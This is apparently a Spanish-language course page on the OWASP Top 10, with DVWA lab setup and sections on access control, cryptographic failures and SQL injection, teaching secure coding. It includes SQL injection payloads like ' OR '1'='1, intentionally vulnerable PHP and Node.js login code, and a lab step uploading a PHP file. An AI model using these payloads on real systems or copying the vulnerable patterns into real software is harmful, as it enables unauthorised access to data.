

| **Inicio**         | **atrás 7**                                                | **Siguiente 9**                                    |
| ------------------ | ---------------------------------------------------------- | -------------------------------------------------- |
| [🏠](../README.md) | [⏪](./7_7_Seguridad_Informatica_para_Equipos_Tecnicos.md) | [⏩](./7_9_Curso_de_Introduccion_al_Pentesting.md) |

---

## **Índice**

| Temario                                                                                            |
| -------------------------------------------------------------------------------------------------- |
| [760. Qué es OWASP Top 10](#760-qué-es-owasp-top-10)                                               |
| [761. Cómo utilizar OWASP Top 10](#761-cómo-utilizar-owasp-top-10)                                 |
| [762. Prepara tu laboratorio de pruebas](#762-prepara-tu-laboratorio-de-pruebas)                   |
| [763. Broken Access Control](#763-broken-access-control)                                           |
| [764. Cryptographic Failures](#764-cryptographic-failures)                                         |
| [765. Injection](#765-injection)                                                                   |
| [766. Insecure Design](#766-insecure-design)                                                       |
| [767. Security Misconfiguration](#767-security-misconfiguration)                                   |
| [768. Vulnerable and Outdated Components](#768-vulnerable-and-outdated-components)                 |
| [769. Identification and Authentication Failures](#769-identification-and-authentication-failures) |
| [770. Software and Data Integrity Failures](#770-software-and-data-integrity-failures)             |
| [771. Security Logging and Monitoring Failures](#771-security-logging-and-monitoring-failures)     |
| [772. Server-Side Request Forgery](#772-server-side-request-forgery)                               |

# **OWASP Top 10: Riesgos en Aplicaciones**

## **760. Qué es OWASP Top 10**

### 🔐 ¿Qué es OWASP Top 10?

OWASP Top 10 es una lista de las **10 vulnerabilidades de seguridad más críticas** en aplicaciones web, publicada por el proyecto **OWASP** (Open Worldwide Application Security Project).
Es una **referencia estándar en ciberseguridad** usada por desarrolladores, testers y empresas para identificar, entender y mitigar las principales amenazas de seguridad en el desarrollo web.

---

#### 🎯 ¿Para qué sirve OWASP Top 10?

- **Concienciar** a los desarrolladores sobre errores comunes de seguridad.
- **Auditar** aplicaciones web.
- **Mejorar** la seguridad de tus proyectos.
- **Cumplir** estándares legales y normativos (por ejemplo, PCI-DSS).

---

### 🧨 OWASP Top 10 - Lista de Vulnerabilidades (2021)

1. **Broken Access Control**

   Control de acceso incorrecto: Usuarios acceden a datos o funciones que no deberían.
   ❌ _Ejemplo:_ Un usuario común accede a `/admin/panel`.

2. **Cryptographic Failures**

   Fallos en cifrado o manejo de datos sensibles.
   ❌ _Ejemplo:_ Contraseñas almacenadas sin hash.

3. **Injection**

   Inyección de comandos SQL, NoSQL, LDAP, etc.
   ❌ _Ejemplo:_ `SELECT * FROM users WHERE name = '$nombre'`

4. **Insecure Design**

   Diseño de la aplicación permite ataques por falta de validaciones o seguridad.
   ❌ _Ejemplo:_ Un sistema de pagos que no verifica saldo antes de transferir.

5. **Security Misconfiguration**

   Configuraciones inseguras en servidores o apps.
   ❌ _Ejemplo:_ Mostrar errores detallados de servidor en producción.

6. **Vulnerable and Outdated Components**

   Uso de librerías o frameworks antiguos y con fallos conocidos.
   ❌ _Ejemplo:_ Usar jQuery 1.x con vulnerabilidades conocidas.

7. **Identification and Authentication Failures**

   Fallas en autenticación (login, tokens, etc).
   ❌ _Ejemplo:_ Login sin protección contra ataques de fuerza bruta.

8. **Software and Data Integrity Failures**

   Procesos inseguros para actualizaciones, plugins, etc.
   ❌ _Ejemplo:_ Cargar scripts externos sin verificar integridad.

9. **Security Logging and Monitoring Failures**

   No registrar ni monitorear actividades sospechosas.
   ❌ _Ejemplo:_ No registrar intentos de acceso fallidos.

10. **Server-Side Request Forgery (SSRF)**

    El servidor es engañado para hacer solicitudes a recursos internos.
    ❌ _Ejemplo:_ El usuario controla una URL y fuerza al servidor a acceder a `http://localhost/admin`.

---

### 💻 ¿Cómo "instalar" o usar OWASP Top 10?

> _OWASP Top 10 no es un software que se instala, sino una guía que debes aplicar en el desarrollo y análisis de seguridad de tus aplicaciones._

Pero sí puedes usar **herramientas basadas en OWASP** para encontrar estas vulnerabilidades automáticamente.

#### 🛠️ Herramientas útiles basadas en OWASP

1. **OWASP ZAP (Zed Attack Proxy)**

   - Herramienta gratuita para escanear apps web.
   - Detecta vulnerabilidades del OWASP Top 10.
   - 🔗 [https://www.zaproxy.org/](https://www.zaproxy.org/)

2. **Burp Suite (versión Community y Pro)**

   - Muy usada en pentesting.
   - Intercepta peticiones y busca fallos OWASP.

3. **SonarQube con plugins de seguridad**

   - Revisa código fuente.

---

### 🧪 Instalación rápida de OWASP ZAP (como ejemplo)

#### 🔹 En Windows/macOS/Linux

1. Ve a: [https://www.zaproxy.org/download/](https://www.zaproxy.org/download/)
2. Descarga e instala.
3. Ejecuta ZAP.
4. Introduce la URL de tu sitio web.
5. Haz un escaneo automático.
6. Revisa los resultados en base al Top 10.

---

### ✅ Ejemplo completo (fácil de entender)

Imaginemos una aplicación sencilla en PHP:

```php
// login.php
<?php
$username = $_POST['username'];
$password = $_POST['password'];

$conn = new mysqli("localhost", "root", "", "usuarios");
$sql = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$result = $conn->query($sql);
```

---

#### ❌ Vulnerabilidades OWASP en este código

1. **Injection (#3):**
   El SQL incluye variables directamente (`'$username'`). Si alguien envía:

   ```sql
   ' OR 1=1 --
   ```

   El acceso será válido sin credenciales.

2. **Cryptographic Failures (#2):**
   Contraseña guardada en texto plano.

3. **Security Misconfiguration (#5):**
   El código no usa HTTPS, ni tiene logs ni validaciones.

---

#### ✅ Versión segura basada en OWASP Top 10:

```php
<?php
$username = $_POST['username'];
$password = $_POST['password'];

$conn = new mysqli("localhost", "root", "", "usuarios");

// Usar prepared statements para evitar SQL Injection
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ?");
$stmt->bind_param("s", $username);
$stmt->execute();
$result = $stmt->get_result();

$user = $result->fetch_assoc();

// Verificar el hash de la contraseña
if ($user && password_verify($password, $user['password'])) {
    echo "Login correcto";
} else {
    echo "Credenciales inválidas";
}
```

Y en el registro de usuarios, deberías usar:

```php
$hash = password_hash($password, PASSWORD_BCRYPT);
```

---

### 📚 Recursos para seguir aprendiendo

- [OWASP Top 10 (oficial en español)](https://owasp.org/www-project-top-ten/)
- [Guía OWASP para desarrolladores](https://cheatsheetseries.owasp.org/)
- [ZAP: Guía de inicio rápido](https://owasp.org/www-project-zap/)

---

[🔼](#índice)

---

## **761. Cómo utilizar OWASP Top 10**

### 🔧 ¿Cómo utilizar OWASP Top 10?

> Usar OWASP Top 10 significa **desarrollar, analizar y corregir** aplicaciones web teniendo en cuenta las 10 vulnerabilidades más críticas de seguridad.

#### Existen dos maneras de utilizarlo:

---

#### ✅ 1. **Aplicarlo en tu código como buenas prácticas**

Esto significa escribir tu código de forma que evites caer en las vulnerabilidades que OWASP Top 10 identifica.

📌 Ejemplo:

- En lugar de:

  ```php
  $sql = "SELECT * FROM users WHERE email = '".$_POST['email']."'";
  ```

- Usas:

  ```php
  $stmt = $conn->prepare("SELECT * FROM users WHERE email = ?");
  $stmt->bind_param("s", $_POST['email']);
  ```

Con esto **evitas SQL Injection**, que es una de las vulnerabilidades OWASP (#3).

---

#### 🛠️ 2. **Usar herramientas automáticas de análisis**

OWASP y la comunidad han creado herramientas para **escanear automáticamente tu aplicación web** y encontrar vulnerabilidades del Top 10.

---

### 🚀 ¿Cómo se instala y se usa una herramienta basada en OWASP Top 10?

Vamos a usar **OWASP ZAP (Zed Attack Proxy)**, la herramienta más conocida de OWASP.

---

### 🐍 Ejemplo completo usando **OWASP ZAP**

#### 🛠 Paso 1: Instalar OWASP ZAP

##### 📦 Opción 1: Descargar instalador

1. Ir a 👉 [https://www.zaproxy.org/download/](https://www.zaproxy.org/download/)
2. Descargar e instalar para tu sistema operativo (Windows, macOS, Linux).
3. Abrir ZAP.

##### 📦 Opción 2: Usar vía Docker

```bash
docker pull owasp/zap2docker-stable
docker run -u zap -p 8080:8080 -i owasp/zap2docker-stable zap.sh
```

---

#### 🛠 Paso 2: Escanear tu sitio web (modo automático)

1. Entra a ZAP.
2. En el menú, elige **Quick Start > Automated Scan**.
3. Ingresa la URL de tu sitio web (por ejemplo, `http://localhost:3000`).
4. Espera mientras ZAP escanea tu sitio.
5. Cuando termine, ZAP te mostrará un reporte con vulnerabilidades encontradas, **clasificadas según el OWASP Top 10**.

---

#### 📋 Ejemplo del reporte:

| Vulnerabilidad         | Severidad | Descripción                                |
| ---------------------- | --------- | ------------------------------------------ |
| SQL Injection          | Alta      | Entrada no sanitizada en el parámetro `id` |
| Broken Access Control  | Alta      | Ruta `/admin` accesible sin autenticación  |
| X-Content-Type-Options | Baja      | Falta cabecera `X-Content-Type-Options`    |

---

### 📌 Aplicación práctica con ejemplo real

Imagina que estás creando un **formulario de login en Node.js con Express**:

```js
// Versión insegura (vulnerable)
app.post("/login", async (req, res) => {
  const { email, password } = req.body;
  const user = await db.query(
    `SELECT * FROM users WHERE email = '${email}' AND password = '${password}'`
  );
  if (user.length > 0) {
    res.send("Bienvenido");
  } else {
    res.send("Credenciales incorrectas");
  }
});
```

---

#### ❌ Vulnerabilidades OWASP presentes:

| Vulnerabilidad OWASP Top 10    | Explicación                                                              |
| ------------------------------ | ------------------------------------------------------------------------ |
| Injection (#3)                 | El código inserta directamente los datos del usuario en la consulta SQL. |
| Cryptographic Failures (#2)    | Las contraseñas no están cifradas, se comparan en texto plano.           |
| Security Misconfiguration (#5) | No hay rate limiting, ni protección contra múltiples intentos.           |

---

#### ✅ Versión segura (aplicando OWASP Top 10)

```js
const bcrypt = require("bcrypt");

app.post("/login", async (req, res) => {
  const { email, password } = req.body;

  // Usar parámetros seguros en SQL
  const result = await db.query("SELECT * FROM users WHERE email = ?", [email]);
  const user = result[0];

  if (user && (await bcrypt.compare(password, user.password_hash))) {
    res.send("Bienvenido");
  } else {
    res.status(401).send("Credenciales inválidas");
  }
});
```

Además:

- Las contraseñas se deben guardar así:

```js
const password_hash = await bcrypt.hash(password, 10);
await db.query("INSERT INTO users (email, password_hash) VALUES (?, ?)", [
  email,
  password_hash,
]);
```

---

### 🧩 ¿Cómo OWASP Top 10 mejora esto?

| Vulnerabilidad            | Solución aplicada                           |
| ------------------------- | ------------------------------------------- |
| SQL Injection             | Se usa consulta parametrizada (`?`)         |
| Cryptographic Failures    | Se usa `bcrypt` para hashing de contraseñas |
| Security Misconfiguration | Puedes agregar rate limiting, logs, HTTPS   |

---

### 📚 Recursos extra

- [OWASP ZAP User Guide](https://www.zaproxy.org/docs/)
- [OWASP Cheat Sheets](https://cheatsheetseries.owasp.org/)
- [OWASP Top 10 2021 - oficial](https://owasp.org/Top10/)

---

### ✅ Resumen final

| Acción                            | ¿Qué haces?                                                     |
| --------------------------------- | --------------------------------------------------------------- |
| 📖 Leer OWASP Top 10              | Entiendes las 10 amenazas principales.                          |
| 🧑‍💻 Codificar con buenas prácticas | Evitas vulnerabilidades desde el código.                        |
| 🧪 Usar herramientas como ZAP     | Escaneas tus aplicaciones y detectas problemas automáticamente. |
| 🔁 Corregir vulnerabilidades      | Ajustas tu app según las recomendaciones del OWASP Top 10.      |

---

[🔼](#índice)

---

## **762. Prepara tu laboratorio de pruebas**

### 🧪 ¿Qué es un laboratorio de pruebas?

Un laboratorio de pruebas de seguridad es un **entorno local o virtual** donde puedes practicar ataques y defensas sin poner en riesgo sistemas reales.
Es como una zona segura donde puedes "romper cosas" legalmente y aprender.

---

### 🎯 ¿Para qué sirve?

- Practicar **vulnerabilidades OWASP Top 10**.
- Probar herramientas como **OWASP ZAP**, **Burp Suite**, etc.
- Simular ataques: inyección SQL, XSS, CSRF, etc.
- Aprender **ciberseguridad ofensiva y defensiva**.

---

### 🧱 Componentes del laboratorio

1. **Máquina virtual o contenedor** (opcional pero recomendado)
2. Aplicación vulnerable para practicar
3. Herramientas de análisis y ataque (ZAP, Burp, navegador)
4. Navegador con plugins útiles (como HackBar)

---

#### 🔧 PASO 1: Instalar una app vulnerable

Vamos a usar **DVWA (Damn Vulnerable Web App)** — una app especialmente diseñada para practicar ataques web.

---

#### 🐳 OPCIÓN A: Instalar DVWA usando Docker (más fácil y rápido)

1. Asegúrate de tener **Docker** instalado. Si no:

   - 👉 [https://www.docker.com/products/docker-desktop/](https://www.docker.com/products/docker-desktop/)

2. Ejecuta estos comandos en terminal/powershell:

```bash
# Clonar repositorio DVWA
git clone https://github.com/digininja/DVWA.git
cd DVWA

# Crear archivo de configuración (copiar y renombrar)
cp config/config.inc.php.dist config/config.inc.php

# Ejecutar con Docker Compose
docker-compose up -d
```

3. Abre tu navegador y entra a:

```
http://localhost:80
```

Usuario por defecto: `admin`
Contraseña: `password`

> Si ves errores, abre `http://localhost/setup.php` y haz clic en "Create / Reset Database".

---

#### 🧰 OPCIÓN B: Instalar DVWA en XAMPP (Windows)

1. Descarga e instala [XAMPP](https://www.apachefriends.org/es/index.html)

2. Descarga DVWA desde:
   👉 [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)

3. Copia la carpeta DVWA a:

```
C:\xampp\htdocs\dvwa
```

4. Edita el archivo `config/config.inc.php.dist`:

   - Cambia el nombre a `config.inc.php`
   - Asegúrate que estas líneas están así:

```php
$_DVWA[ 'db_user' ] = 'root';
$_DVWA[ 'db_password' ] = '';
```

5. Abre XAMPP, activa **Apache** y **MySQL**

6. En el navegador, abre:

```
http://localhost/dvwa/setup.php
```

Haz clic en **Create / Reset Database**

7. Luego ve a:

```
http://localhost/dvwa
```

Usuario: `admin`
Contraseña: `password`

---

### 🛠 PASO 2: Instalar herramientas de análisis

#### 1. **OWASP ZAP**

- Descargar desde 👉 [https://www.zaproxy.org/download/](https://www.zaproxy.org/download/)
- Instálalo y ejecútalo

#### 2. **Burp Suite (opcional)**

- Descargar versión gratuita desde 👉 [https://portswigger.net/burp](https://portswigger.net/burp)

#### 3. **HackBar Plugin para Firefox/Chrome**

- Permite modificar fácilmente parámetros en URLs
- 👉 Buscar “HackBar” en la tienda de extensiones de tu navegador

---

### 🧪 PASO 3: Realiza tu primera prueba

#### 🔍 Ejemplo: prueba de SQL Injection en DVWA

1. Abre DVWA en tu navegador
   👉 `http://localhost/dvwa`

2. Inicia sesión (`admin` / `password`)

3. Ve a **"SQL Injection"** (menú izquierdo)

4. En el campo de ID, escribe:

```sql
1' OR '1'='1
```

5. Pulsa "Submit"
   Deberías ver una **lista completa de usuarios**, sin autenticar.

🎯 ¡Felicidades! Acabas de ejecutar tu primer ataque de inyección SQL en un entorno seguro.

---

### 📁 Estructura recomendada del laboratorio

| Elemento                  | Herramienta / app recomendada                      |
| ------------------------- | -------------------------------------------------- |
| Aplicación vulnerable     | DVWA, WebGoat, Juice Shop                          |
| Análisis automático       | OWASP ZAP, Burp Suite                              |
| Navegador con plugins     | Firefox/Chrome + HackBar                           |
| Sistema de virtualización | Docker o VirtualBox (opcional para aislar entorno) |

---

### 📦 Extra: Otras apps vulnerables

| App Vulnerable | Descripción                      | Instalación fácil con |
| -------------- | -------------------------------- | --------------------- |
| **DVWA**       | Inyecciones, XSS, CSRF, etc.     | Docker, XAMPP         |
| **WebGoat**    | App educativa oficial de OWASP   | Docker, JAR           |
| **Juice Shop** | App moderna con múltiples fallos | Docker, Node.js       |
| **bWAPP**      | Cientos de fallos configurables  | Docker, PHP           |

---

### ✅ Resumen: tu laboratorio de pruebas

| Paso | Acción                                                        |
| ---- | ------------------------------------------------------------- |
| 1    | Instala DVWA (Docker o XAMPP)                                 |
| 2    | Abre en navegador y configura la base de datos                |
| 3    | Instala herramientas como ZAP y plugins                       |
| 4    | Realiza pruebas (SQLi, XSS, CSRF, etc.)                       |
| 5    | Analiza resultados y corrige errores con base en OWASP Top 10 |

---

[🔼](#índice)

---

## **763. Broken Access Control**

### 🔐 ¿Qué es Broken Access Control?

**Broken Access Control** (Control de acceso roto) es una de las vulnerabilidades más graves según el **OWASP Top 10**.
Ocurre cuando una aplicación **permite que un usuario acceda a recursos o acciones que no debería poder usar**.

---

### 🚨 ¿Por qué es peligroso?

Porque permite que:

- Un **usuario normal acceda a funciones de administrador**
- Un **usuario vea o modifique datos de otro usuario**
- Se puedan **cambiar roles, eliminar recursos o extraer información confidencial**

---

### 🎯 Ejemplos simples de Broken Access Control

#### Ejemplo 1: Ruta de administrador sin protección

```url
https://miapp.com/admin/panel
```

Si un usuario normal puede abrir esa URL sin restricciones, hay un **fallo de control de acceso**.

---

#### Ejemplo 2: Cambiar IDs en la URL

```url
https://miapp.com/usuarios/editar?id=5
```

Un atacante cambia la URL a:

```url
https://miapp.com/usuarios/editar?id=1
```

Y edita datos de otro usuario. Esto se llama **Insecure Direct Object Reference (IDOR)**, una forma común de Broken Access Control.

---

### 🧱 Cómo instalar un entorno para practicar Broken Access Control

#### ✅ Usaremos: **DVWA** (Damn Vulnerable Web App)

---

### 🔧 PASO 1: Instalar DVWA usando Docker

#### 🐳 Requisitos:

- Tener Docker instalado → [https://www.docker.com/products/docker-desktop](https://www.docker.com/products/docker-desktop)

#### 📦 Comandos:

```bash
git clone https://github.com/digininja/DVWA.git
cd DVWA
cp config/config.inc.php.dist config/config.inc.php
docker-compose up -d
```

#### 🖥 Abre en tu navegador:

```
http://localhost
```

Usuario: `admin`
Contraseña: `password`

Haz clic en **setup.php → Create / Reset Database**

---

### 🔍 PASO 2: Prueba real de Broken Access Control en DVWA

#### 1. Inicia sesión como usuario normal (`admin` / `password`)

#### 2. Ve a la opción “**DVWA Security**” y pon el nivel en **Low**

#### 3. En el menú, entra a "**File Upload**"

#### 4. Sube cualquier archivo `.php` o `.txt`

#### 5. Luego visita la URL:

```url
http://localhost/hackable/uploads/archivo.php
```

✔️ **Funciona sin verificación de permisos.**

Este es un ejemplo clásico de **Broken Access Control**, ya que **permite que cualquier usuario suba y acceda a archivos arbitrarios**, sin ningún tipo de restricción.

---

### 🧑‍💻 Ejemplo completo: Código vulnerable vs código seguro

#### 🔴 Código INSEGURO (Broken Access Control)

Supón que tienes esta ruta en Node.js:

```js
// Ruta insegura
app.get("/admin", (req, res) => {
  res.send("Bienvenido al panel de administrador");
});
```

✅ ¿El problema?

**No verifica si el usuario es administrador.**

Cualquiera que entre a `http://localhost:3000/admin` puede ver ese contenido.

---

### ✅ Código SEGURO (Control de acceso implementado)

```js
function esAdmin(req, res, next) {
  if (req.user && req.user.rol === "admin") {
    next(); // continúa
  } else {
    res.status(403).send("Acceso denegado");
  }
}

// Ruta protegida
app.get("/admin", esAdmin, (req, res) => {
  res.send("Bienvenido al panel de administrador");
});
```

🛡️ Ahora la ruta `/admin` solo estará disponible para usuarios con el rol `"admin"`.

---

### 🔄 Ejemplo de IDOR (acceso por ID inseguro)

#### 🔴 Inseguro:

```js
app.get("/perfil/:id", async (req, res) => {
  const user = await db.getUserById(req.params.id);
  res.json(user);
});
```

Aquí un atacante puede ver perfiles de otros usuarios simplemente cambiando la ID en la URL.

---

#### ✅ Seguro (control de ID):

```js
app.get("/perfil/:id", async (req, res) => {
  if (req.user.id !== req.params.id && req.user.rol !== "admin") {
    return res.status(403).send("No autorizado");
  }

  const user = await db.getUserById(req.params.id);
  res.json(user);
});
```

---

### ✅ Cómo detectar Broken Access Control con herramientas

#### 🧪 Usando OWASP ZAP

1. Abre OWASP ZAP
2. Escanea tu sitio (`http://localhost`)
3. Mira si hay rutas accesibles sin autenticación o control de roles
4. Analiza alertas tipo:

   - **"Access to admin area without login"**
   - **"IDOR detected via parameter"**

---

### 🧠 Buenas prácticas para evitar Broken Access Control

| Recomendación                             | ¿Por qué?                                                   |
| ----------------------------------------- | ----------------------------------------------------------- |
| ✔️ Verifica roles y permisos en cada ruta | Para asegurarte de que cada acción esté autorizada          |
| ✔️ Nunca confíes en IDs en URL            | Pueden ser modificadas fácilmente por atacantes             |
| ✔️ Usa control de sesión y autenticación  | Para saber quién es el usuario y limitar acceso             |
| ✔️ Oculta rutas administrativas           | No hagas visible `/admin`, usa tokens o doble autenticación |

---

### 🧩 RESUMEN FINAL

| Punto            | Explicación                                                                 |
| ---------------- | --------------------------------------------------------------------------- |
| 📌 ¿Qué es?      | Acceso no autorizado a recursos, funciones o datos                          |
| ⚠️ Ejemplos      | Rutas sin protección, edición de datos ajenos, subida de archivos inseguros |
| 🧪 Cómo probarlo | Usando DVWA, simulando usuarios y rutas                                     |
| 🔐 Cómo evitarlo | Validar roles, autenticar usuarios, proteger rutas                          |
| 🛠 Herramientas   | OWASP ZAP, Burp Suite, DVWA para prácticas                                  |

---

[🔼](#índice)

---

## **764. Cryptographic Failures**



### 🔐 ¿Qué es _Cryptographic Failures_?

**Cryptographic Failures** (fallos criptográficos) es la categoría #2 del **OWASP Top 10** (2021) y antes se conocía como "**Sensitive Data Exposure**".

Esta vulnerabilidad ocurre cuando:

- La información **sensible** (como contraseñas, tokens, datos personales o financieros) **no está protegida adecuadamente** mediante criptografía.
- Se usa **cifrado débil**, incorrecto o **sin cifrado**.
- La información **viaja sin HTTPS**, o se almacenan contraseñas sin `hash`.

---

### 🎯 ¿Por qué es grave?

Porque permite que un atacante:

- Intercepte datos (ej. con un ataque _Man-in-the-Middle_)
- Lea contraseñas robadas sin dificultad
- Acceda a información sensible desde una base de datos hackeada

---

### 😱 Ejemplos reales

| Vulnerabilidad                 | Ejemplo simple                                            |
| ------------------------------ | --------------------------------------------------------- |
| Contraseña sin `hash`          | Guardar: `123456` en texto plano                          |
| Cifrado débil                  | Usar MD5 o SHA1, que son _rotos_ y fáciles de romper      |
| Sin HTTPS                      | Formulario de login que envía datos por HTTP              |
| Sin validación de certificados | Cliente que acepta cualquier certificado SSL              |
| Token expuesto                 | Guardar tokens de sesión sin cifrar en cookies o archivos |

---

### ⚠️ EJEMPLO DE CÓDIGO INSEGURO

#### ❌ Versión insegura en PHP (sin hashing de contraseñas)

```php
// register.php
$password = $_POST['password'];
// Se guarda la contraseña tal cual en la base de datos (¡muy mal!)
$sql = "INSERT INTO users (username, password) VALUES ('$username', '$password')";
```

Si alguien roba la base de datos, ve esto:

```
username: juan
password: 123456
```

📛 ¡Grave riesgo! No hay cifrado, hash, ni protección.

---

### ✅ Cómo evitar Cryptographic Failures

| Qué hacer                            | Cómo hacerlo                            |
| ------------------------------------ | --------------------------------------- |
| ✅ Usar `hash` para contraseñas      | Con `bcrypt`, `Argon2`, `PBKDF2`        |
| ✅ Usar HTTPS                        | En toda la app (no solo login)          |
| ✅ No usar MD5 ni SHA1               | Son inseguros. Usa algoritmos modernos. |
| ✅ Cifrar datos sensibles            | Con claves seguras y librerías robustas |
| ✅ No guardar claves duras en código | Usa variables de entorno o `vaults`     |

---

### 🛠 Cómo instalar un entorno de pruebas para Cryptographic Failures

#### ✅ Usaremos: **DVWA (Damn Vulnerable Web App)**

DVWA incluye vulnerabilidades como contraseñas sin hash, formularios sin HTTPS, etc.

---

#### 🐳 PASO 1: Instalar DVWA con Docker

#### Requisitos:

- Docker instalado → [https://www.docker.com/products/docker-desktop](https://www.docker.com/products/docker-desktop)

#### Comandos para instalar:

```bash
git clone https://github.com/digininja/DVWA.git
cd DVWA
cp config/config.inc.php.dist config/config.inc.php
docker-compose up -d
```

Abre en el navegador:

```
http://localhost
```

Usuario: `admin`
Contraseña: `password`

Haz clic en `setup.php → Create / Reset Database`

---

#### 🧪 PASO 2: Prueba de Cryptographic Failure en DVWA

1. Inicia sesión
2. Ve a la opción "**DVWA Security**" y pon el nivel en **Low**
3. En el menú, entra a "**Brute Force**"
4. Abre el código fuente (desde GitHub o inspeccionando el navegador)

Notarás que DVWA **almacena contraseñas en texto plano**, y no tiene HTTPS.

Esto simula un **Cryptographic Failure** real.

---

### ✅ EJEMPLO COMPLETO: Corregir Cryptographic Failure

#### 🔴 CÓDIGO INSEGURO (Node.js con contraseñas en texto plano)

```js
app.post("/register", async (req, res) => {
  const { username, password } = req.body;
  await db.query("INSERT INTO users (username, password) VALUES (?, ?)", [
    username,
    password,
  ]);
  res.send("Registrado");
});
```

---

#### ✅ CÓDIGO SEGURO (con `bcrypt`)

```js
const bcrypt = require("bcrypt");

app.post("/register", async (req, res) => {
  const { username, password } = req.body;

  // Encriptar la contraseña antes de guardarla
  const hashedPassword = await bcrypt.hash(password, 10);

  await db.query("INSERT INTO users (username, password) VALUES (?, ?)", [
    username,
    hashedPassword,
  ]);
  res.send("Registrado con seguridad");
});
```

Y para verificarla en login:

```js
app.post("/login", async (req, res) => {
  const { username, password } = req.body;

  const result = await db.query("SELECT * FROM users WHERE username = ?", [
    username,
  ]);
  const user = result[0];

  if (user && (await bcrypt.compare(password, user.password))) {
    res.send("Login correcto");
  } else {
    res.status(401).send("Credenciales inválidas");
  }
});
```

---

### 🔐 BONUS: Cómo cifrar datos sensibles (ej. tarjetas)

Usa bibliotecas como `crypto` en Node.js o `OpenSSL` en PHP.

#### Ejemplo con `crypto` en Node.js:

```js
const crypto = require("crypto");
const secret = process.env.SECRET_KEY; // NO pongas esto en el código directamente

function encrypt(text) {
  const iv = crypto.randomBytes(16);
  const cipher = crypto.createCipheriv("aes-256-cbc", Buffer.from(secret), iv);
  let encrypted = cipher.update(text);
  encrypted = Buffer.concat([encrypted, cipher.final()]);
  return iv.toString("hex") + ":" + encrypted.toString("hex");
}
```

---

### ✅ Resumen final

| Aspecto             | Explicación                                              |
| ------------------- | -------------------------------------------------------- |
| ¿Qué es?            | Fallos en cifrado, hashing, almacenamiento o transmisión |
| Ejemplos comunes    | Contraseñas sin hash, sin HTTPS, usar MD5/SHA1           |
| Cómo practicar      | Instalar DVWA y analizar formularios y login             |
| Cómo protegerte     | Usar bcrypt, HTTPS, cifrado moderno, variables seguras   |
| Herramientas útiles | ZAP, Wireshark, DVWA, HTTPS scanner                      |

---

[🔼](#índice)

---

## **765. Injection**

### 🧨 ¿Qué es Injection?

**Injection** (inyección) es una de las **vulnerabilidades más comunes y peligrosas** según el OWASP Top 10 (es el número 3).

Esta vulnerabilidad ocurre cuando **datos del usuario son enviados directamente a un intérprete** (como SQL, comandos del sistema, NoSQL, LDAP, etc.) sin ser validados, filtrados o escapados.
Esto permite a un atacante **inyectar código malicioso** y **alterar el comportamiento de la aplicación**.

---

### 🎯 Tipos comunes de Inyección

| Tipo de inyección     | ¿Dónde ocurre?             | Ejemplo                                |
| --------------------- | -------------------------- | -------------------------------------- |
| **SQL Injection**     | En bases de datos          | `SELECT * FROM users WHERE id = '$id'` |
| **Command Injection** | En comandos del sistema    | `exec("ping " + $host)`                |
| **NoSQL Injection**   | En bases NoSQL (MongoDB)   | `db.users.find({ username: input })`   |
| **LDAP Injection**    | En búsquedas de directorio | `(&(user=$input))`                     |

---

### 😱 Ejemplo real de SQL Injection

#### Supón este código PHP:

```php
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id = '$id'";
```

Si un atacante pone esto en la URL:

```
?id=1' OR '1'='1
```

El SQL resultante será:

```sql
SELECT * FROM users WHERE id = '1' OR '1'='1'
```

⚠️ Eso **siempre será verdadero**, y devolverá **todos los usuarios** sin autorización.

---

### 🧪 ¿Cómo instalar un entorno de pruebas para Injection?

#### ✅ Opción recomendada: **DVWA (Damn Vulnerable Web App)**

DVWA es una aplicación web insegura que incluye una sección específica para practicar **SQL Injection y otras inyecciones**.

---

### 🐳 PASO 1: Instalar DVWA usando Docker

#### Requisitos:

- Tener Docker instalado:
  👉 [https://www.docker.com/products/docker-desktop](https://www.docker.com/products/docker-desktop)

#### Comandos:

```bash
git clone https://github.com/digininja/DVWA.git
cd DVWA
cp config/config.inc.php.dist config/config.inc.php
docker-compose up -d
```

📎 Luego, abre tu navegador y entra a:

```
http://localhost
```

Usuario: `admin`
Contraseña: `password`

Haz clic en `setup.php → Create / Reset Database`

---

### 🔍 PASO 2: Probar una inyección en DVWA

1. Inicia sesión en DVWA
2. Ve a **DVWA Security** y selecciona el nivel **Low**
3. En el menú, elige **SQL Injection**
4. Aparecerá un formulario que te pide el ID de un usuario
5. Escribe:

```
1' OR '1'='1
```

6. Pulsa “Submit”
   Verás que se **devuelven todos los usuarios**, sin validación alguna.

✔️ ¡Has realizado tu primer ataque de SQL Injection!

---

### 🔴 EJEMPLO COMPLETO INSEGURO (en PHP)

```php
<?php
$id = $_GET['id'];
$conn = new mysqli("localhost", "root", "", "usuarios");

// 🚨 Consulta insegura, vulnerable a SQL Injection
$sql = "SELECT * FROM users WHERE id = '$id'";
$result = $conn->query($sql);

while ($row = $result->fetch_assoc()) {
  echo $row['username'];
}
?>
```

#### 📌 Si el usuario pone en la URL:

```
?id=1' OR '1'='1
```

Se ejecutará:

```sql
SELECT * FROM users WHERE id = '1' OR '1'='1'
```

Esto devuelve **todos los usuarios**. ¡Muy peligroso!

---

### ✅ VERSIÓN SEGURA (usando _prepared statements_)

```php
<?php
$id = $_GET['id'];
$conn = new mysqli("localhost", "root", "", "usuarios");

// ✅ Consulta segura usando parámetros
$stmt = $conn->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $id);
$stmt->execute();
$result = $stmt->get_result();

while ($row = $result->fetch_assoc()) {
  echo $row['username'];
}
?>
```

#### 🔐 ¿Qué mejora?

- No importa qué valor se ponga en `$id`, **nunca será ejecutado como código**, solo como valor.
- Esta técnica previene **SQL Injection**.

---

